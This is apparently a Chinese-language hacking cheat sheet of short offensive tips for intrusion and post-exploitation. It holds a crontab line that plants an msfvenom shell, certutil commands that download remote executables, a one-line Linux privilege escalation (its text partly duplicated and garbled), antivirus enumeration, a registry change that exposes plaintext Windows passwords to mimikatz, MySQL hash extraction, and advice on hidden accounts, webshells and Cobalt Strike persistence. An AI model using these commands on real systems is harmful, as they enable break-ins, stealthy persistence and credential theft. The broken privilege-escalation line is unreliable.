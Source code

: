 # 奇淫技巧

1. 验证是否为docker环境

```bash
ls -alh /.dockerenv
```

2. ifconfig命令找不到，查看IP

```bash
cat /etc/hosts
```

3. curl探测端口

```bash
curl http://192.168.16.1:[1-100] 1> 1.txt 2>/dev/null
curl http://192.168.16.1:[8000-9999] 1>> 1.txt 2>/dev/null
```

4. 写计划任务拿shell

```bash
echo  "* *     * * *   root   python –c \" [msfvenom生成的代码]\"" >> /etc/crontab
```

5. URL后添加目录名访问后，自动加上`/`，说明目录存在
6. `w`命令查看当前登录用户
7. `last`命令查看登录记录
8. windows-JuicyPotato提权-MS16-075
9. web后门生成-weevely工具
10. 使用icon_hash="hash"查找隐形资产
11. wooyun镜像库搜索历史漏洞
12. 抓包auth参数校验，base64
13. 内存马优于webshell，webshell上线后立马用cs上线
14. windows创建隐藏账户，或激活guest更隐蔽
15. smb445登录windows
16. 任意文件读取，读日志文件
17. 上传web.config运行asp代码
18. CS读取进程 利用进程的绑定，避免shell被干掉
19. PHPINFO信息收集，网站根路径
20. windows查找杀软

```cmd
wmic /node:localhost /namespace:\\root\SecurityCenter2 path AntiVirusProduct Get DisplayName | findstr /V /B /C:displayName || echo No Antivirus installed
```

21. windows下，文件命名不能存在空格，以此构造文件名`xxx.php. (空格)`上传
22. linux一句话提权

```bash
printf "install uprobes /bin/sh" > exploit.conf; MODPROBE_OPTIONS="-C exploit.conf" staprun -u whatever exploit.conf" staprun -u whatever> exploit.conf; MODPROBE_OPTIONS="-C
```

23. 善用msf的auxiliary/server/socks4a模块建立socks代理，配合proxychains使用
24. windows下，使用Certutil.exe（or powershell）下载远程文件

```bash
certutil.exe -urlcache -split -f http://ip/test.exe /var/www/html/test.exe
```

25. MYSQL获取密码

```bash
#方式一
查看F:\MySQL\data\mysql下的user.MYD文件，010打开，寻找hash值，带星号的为40位哈希值，解密

#方式二
user.MYD/user.frm/user.MYI三个文件替换本地文件
然后
cd bin
mysqld --skip-grant-tables
-----------------------
另起一个cmd
mysql -u root
select user,password from mysql.user;
```

26. `/var/log/lastlog`和`/var/log/wtmp`这两个文件有记录登录ip
27. 文件包含到RCE

```
https://www.toutiao.com/i6718905823352848903/#&gid=1&pid=1
1. /proc/self/environ文件
2. Apache和SSH等日志文件
3. /var/mail日志记录
```

28. 不安全的jquery版本，过滤用户输入数据所使用的正则表达式存在缺陷，可能导致LOCATION.HASH跨站漏洞

```version
1.x系列低于1.12版本
2.x系列低于2.2版本
```

29. 远程连接失败解决方案

- 查询系统是否允许3389远程连接（1表示关闭,0表示开启）

```cmd
REGQUERY "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections
```

- 查看远程连接的端口

```cmd
REGQUERY "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber
```

30. MSF模块-可执行的本地提权信息

```msf
use post/multi/recon/local_exploit_suggester
```

31. 手动端口探测

nc连接，随便输入一个字符串

```bash
nc -vv ip port
```

32. windows下命令行下载文件

```cmd
certutil.exe -urlcache -split -f http://xxxx
```

33. 导出Windows系统明文口令

Windows Server 2012默认无法使用mimikatz导出明文口令，部分Windows Server 2008也一样

```CMD
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
```

